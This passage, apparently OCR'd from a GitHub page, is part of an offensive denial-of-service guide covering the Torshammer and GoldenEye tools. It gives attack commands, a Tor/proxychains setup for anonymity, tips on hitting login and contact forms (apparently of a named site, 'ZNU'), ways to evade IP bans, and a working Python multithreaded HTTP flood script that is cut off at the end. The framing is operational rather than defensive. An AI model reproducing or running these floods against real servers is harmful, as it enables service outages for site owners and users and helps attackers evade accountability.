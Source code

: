   ### 3.5 Torshammer

  **Purpose** : Slow HTTP POST attacks to exhaust server resources.

  - **Protocols** : HTTP/HTTPS (Layer 7).
  - **Strengths** : Stealthy, targets form endpoints, uses Tor for anonymity.
  - **Usage** :
  - Command:

    ```bash
    torshammer.py -t <target_domain> -p 80 -r 1000 -T
    ```

    - `-t`: Target domain/IP.
    - `-r 1000`: 1,000 connections.
    - `-T`: Use Tor for anonymity.

  - **Tor Setup** :
    `bash service tor start proxychains python3 torshammer.py -t <target_domain> -p 80 -r 1000 `
  - **Efficiency Tips** :
  - Target login or feedback forms (e.g., `/contact` from the ZNU site).
  - Increase connections (`-r`) to match server limits.
  - Run multiple instances with different Tor circuits.
  - **Defense Bypass** :
  - Tor anonymizes source IPs, evading IP bans.
  - Slow POSTs mimic legitimate form submissions.

  ### 3.6 GoldenEye

  **Purpose** : Layer 7 HTTP floods with randomized requests to bypass caching.

  - **Protocols** : HTTP/HTTPS.
  - **Strengths** : Generates dynamic, cache-busting requests, high CPU load.
  - **Usage** :
  - Command:

    ```bash
    goldeneye.py http://<target_domain> -w 100 -s 500
    ```

    - `-w 100`: 100 worker threads.
    - `-s 500`: 500 sockets per thread.

  - **Python Alternative** (cache-busting):

    ```python
    import requests
    import random
    import threading

    def goldeneye_flood(target, threads=100):
        def attack():
            while True:
                try:
                    url = f"{target}?rand={random.randint(1, 100000)}"
                    headers = {"User-Agent": f"Mozilla/5.0 {random.randint(1, 100)}"}
                    requests.get(url, headers=headers, timeout=5)
                except:
                    pass
        for _ in range(threads):
            threading.Thread(target=attack).start()
